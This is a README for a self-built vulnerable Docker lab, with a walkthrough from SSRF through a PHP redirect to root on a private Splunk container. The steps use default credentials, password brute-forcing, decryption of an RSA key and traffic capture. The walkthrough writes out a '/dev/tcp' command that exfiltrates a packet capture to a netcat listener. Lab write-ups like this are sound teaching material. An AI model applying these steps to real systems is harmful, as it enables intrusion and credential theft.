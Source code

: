# Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. I decided to make a network of a couple docker containers where a user can go from external access to root

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network.

The web app is the SSRF app from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container but this user isn't on the box. From here we could try and bruteforce the `admin2` user, creating a wordlist from the password `changeme` using hashcat. The credentials `admin2:changeme2` work.

There's not much on the web app container, so we could try and pivot to the splunk container hoping for password reuse. We find we can `ssh` to the splunk container with the same credentials.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access1.png">

Doing a light bruteforce against the `admin2` user on the web container, we find the weak and predictable password `changeme2`. We can simply `ssh` into the box now.

<img src="images/access2.png">

Let's immediately test for credential reuse. We can pivot into the Splunk container with `ssh`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">
Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`

<img src="images/traffic.png">

Back on the box I let `tcpdump` run for a short while and sent the output to `output.pcap`. I can copy this file to the host by running `nc -nvlp 7777 >
output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/root_creds.png">

Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.

Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.
